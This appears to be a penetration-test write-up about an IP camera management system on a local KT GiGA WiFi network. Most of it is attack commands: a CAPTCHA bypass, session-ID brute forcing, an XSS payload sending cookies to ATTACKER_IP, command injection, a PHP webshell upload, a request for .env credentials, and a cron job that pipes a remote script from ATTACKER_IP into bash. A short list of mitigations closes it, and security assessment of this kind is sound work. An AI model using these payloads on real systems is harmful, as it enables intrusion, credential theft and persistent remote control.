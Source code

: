 # KT_GiGA_WiFi_Pen-test
Thought about KT publc Wifi or Home Hub

Exploiting Weak Authentication & Session Hijacking in an local System
Introduction
During a recent security assessment, I discovered an IP camera management system (http://172.30.1.254:8899) with multiple vulnerabilities, including weak authentication, CAPTCHA bypasses, and insecure session handling. This post details the flaws found and how they could be exploited for privilege escalation, cookie theft, and remote code execution (RCE).

1. Weak Authentication & CAPTCHA Bypass
Issue #1: Base64-Encoded Passwords
The system sends passwords in Base64 (not real encryption):

http
POST /login HTTP/1.1  
user_pwd=ZGV2anVzdGljZQo=  # Decodes to "devjustice"
Exploit:

bash```
echo "ZGV2anVzdGljZQo" | base64 --decode ```
Issue #2: Predictable CAPTCHA
The CAPTCHA (captcha_txt=chpfv) is static or easily guessable.
Bypass: Reuse the same CAPTCHA token:

bash
curl -X POST "http://172.30.1.254:8899/login" -d "captcha_txt=chpfv&user_id=admin&user_pwd=BASE64_PASS"
2. Session Hijacking & Cookie Theft
Issue #3: Insecure Session Tokens (sid)
The sid cookie lacks HttpOnly, making it stealable via XSS.

No clear time-based/database pattern, but sequential brute-forcing may work.

Bruteforce Attack:

bash
bash```
for i in {214000..215000}; do
  curl -s "http://172.30.1.254:8899/status/system_info" -H "Cookie: sid=$i" | grep -q "System Info" && echo "Valid SID: $i"
done```
XSS Cookie Stealing (If Vulnerable):

javascript
fetch('http://ATTACKER_IP/steal?cookie=' + document.cookie);



3. Privilege Escalation (RCE & Backdoors)
Issue #4: Command Injection in /status/system_info
If the endpoint executes system commands:

bash```
curl -X POST "http://172.30.1.254:8899/status/system_info" \
  -H "Cookie: sid=VALID_SID" \
  -d "cmd=;id"```
Issue #5: Arbitrary File Upload (If Available)
Upload a PHP webshell:

bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST -F "file=@shell.php" "http://172.30.1.254:8899/upload"
Then execute commands:
```
bash
curl "http://172.30.1.254:8899/uploads/shell.php?cmd=id"
```

4. Post-Exploitation & Data Exfiltration
Dump Credentials
```

curl -H "Cookie: sid=VALID_SID" "http://172.30.1.254:8899/../../.env"
Cronjob Persistence
```

bash

```
curl -X POST "http://172.30.1.254:8899/status/system_info" \
  -H "Cookie: sid=VALID_SID" \
  -d "cmd=echo '* * * * * curl http://ATTACKER_IP/shell.sh | bash' >> /var/spool/cron/root"
```


5. Mitigations & Lessons Learned
How to Fix These Issues?
✅ Use HTTPS (prevent sniffing).
✅ Replace Base64 with proper hashing (bcrypt, Argon2).
✅ Secure cookies (HttpOnly, Secure, SameSite=Strict).
✅ Rate-limit CAPTCHA attempts.
✅ Sanitize user input (block ;, |, $(cmd) in commands).


Final Thoughts
This system had multiple critical flaws that could lead to full compromise. While some attacks required authentication, session hijacking and RCE were possible due to weak design.

Key Takeaways:
🔴 Never trust client-side validation (Base64 ≠ encryption).
🔴 CAPTCHAs must be server-validated.
🔴 Session tokens must be unpredictable.

For ethical hackers, this serves as a reminder to test rigorously. For developers, it’s a lesson in secure design.
